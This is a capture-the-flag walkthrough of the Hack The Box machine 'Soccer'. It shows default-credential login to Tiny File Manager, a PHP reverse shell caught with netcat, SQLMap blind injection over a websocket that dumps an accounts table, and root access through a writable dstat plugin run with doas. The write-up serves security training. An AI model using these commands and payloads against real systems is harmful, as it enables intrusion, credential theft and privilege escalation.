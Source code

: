 # HTB - Soccer

#### Ip: 10.10.11.194
#### Name: Soccer
#### Rating: Easy

----------------------------------------------------------------------

![Soccer.png](../assets/soccer_assets/Soccer.png)


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.194 -sC -sV 
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-03 08:22 CST
Nmap scan report for 10.10.11.194
Host is up (0.073s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad0d84a3fdcc98a478fef94915dae16d (RSA)
|   256 dfd6a39f68269dfc7c6a0c29e961f00c (ECDSA)
|_  256 5797565def793c2fcbdb35fff17c615c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
|   GetRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 139
|     Date: Sat, 03 Feb 2024 14:23:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot GET /</pre>
|     </body>
|     </html>
|   HTTPOptions, RTSPRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Security-Policy: default-src 'none'
|     X-Content-Type-Options: nosniff
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 143
|     Date: Sat, 03 Feb 2024 14:23:12 GMT
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8">
|     <title>Error</title>
|     </head>
|     <body>
|     <pre>Cannot OPTIONS /</pre>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

Using Feroxbuster we can do directory scanning and find a `/tiny` directory leading us to a Tiny File Manager service.

soccer_ferox.png

Looking for default credentials we see that admin:admin@123 are default administrator credentials and we can use them to login to the site as admin:

soccer_logged_in.png

Looking around the target I find an upload feature, but am unable to write to the web root which is owned by root. I found I can create a new folder called test via the "New Item" feature, and in that folder I have write access permission to load  php-reverse-shell.php code. 

soccer_dirs.png

After confirming the php shell is loaded:

soccer_php.png

I can set up a netcat listener and click "Open" to trigger my reverse shell to catch a shell back as user www-data:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.60] from (UNKNOWN) [10.10.11.194] 41702
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 15:58:56 up 5 min,  0 users,  load average: 0.16, 0.40, 0.23
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami 
www-data
$ hostname
soccer
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@soccer:/$ 
```

I find trying to access the user.txt flag in user player's home directory I don't have permissions and will need to escalate privileges:

```
www-data@soccer:/home/player$ cat user.txt
cat: user.txt: Permission denied
```

Loading LinPEAS to the target we see there is a vhost that wasn't found during enumeration:

soccer_vhost.png

Adding this to out /etc/hosts file, we can create an account and login.

soccer_tix.png

We can see in the page source here some JS code that is reaching out to a websocket on port 9091:

soccer_js.png

Full transparency: I got stuck here for HOURS, and the following SQLMap commands were shamelessly lifted from 0xdf's writeup of the box found at: https://0xdf.gitlab.io/2023/06/10/htb-soccer.html. Thanks 0xdf!

Apparently this is vulnerable to a blind SQL injection, and we can use SQLMap to interact with the web socket and extract data from the DB.

To enumerate the database We can run:
```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 --dbs --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org
```

Which gives us the databases:
```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Because soccer_db is the only non default DB, lets start there, by now enumerating tables:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db --tables --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

Appears to be only one table:
```
Database: soccer_db
[1 table]
+----------+
| accounts |
+----------+
```

Finally, we can dump the contents of the accounts table:
```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ sqlmap -u ws://soc-player.soccer.htb:9091 -D soccer_db -T accounts --dump --data '{"id": "1234"}' --dbms mysql --batch --level 5 --risk 3 --threads 10
```

Nice, SQLMap dropped user player's password for us:

soccer_pw.png

We can use this to SSH into the machine:

```
┌──(ryan㉿kali)-[~/HTB/Soccer]
└─$ ssh player@10.10.11.194      
The authenticity of host '10.10.11.194 (10.10.11.194)' can't be established.
ED25519 key fingerprint is SHA256:PxRZkGxbqpmtATcgie2b7E8Sj3pw1L5jMEqe77Ob3FE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.194' (ED25519) to the list of known hosts.
player@10.10.11.194's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
```

And grab the user.txt flag:

soccer_user.png

### Privilege Escalation

Loading LinPEAS onto the target we see that `doas` as the SUID bit set.

soccer_doas.png

Also of interest we find that /usr/local/share/dstat is writable:

soccer_lin2.png

If we look at the doas.conf file we see we are permitted to run dstat with doas, as you would sudo.

```
player@soccer:/tmp$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Looking at GTFObins.com, we find the following explanation:
```
dstat allows you to run arbitrary python scripts loaded as “external plugins” if they are located in one of the directories stated in the dstat man page under “FILES”:
```

Lets try it:

```
echo 'import os; os.execv("/bin/sh", ["sh"])' > /usr/local/share/dstat/dstat_plugin.py

/usr/local/bin/doas /usr/bin/dstat --plugin
```
Nice, that worked. We can now grab the root.txt flag:

soccer_root.png

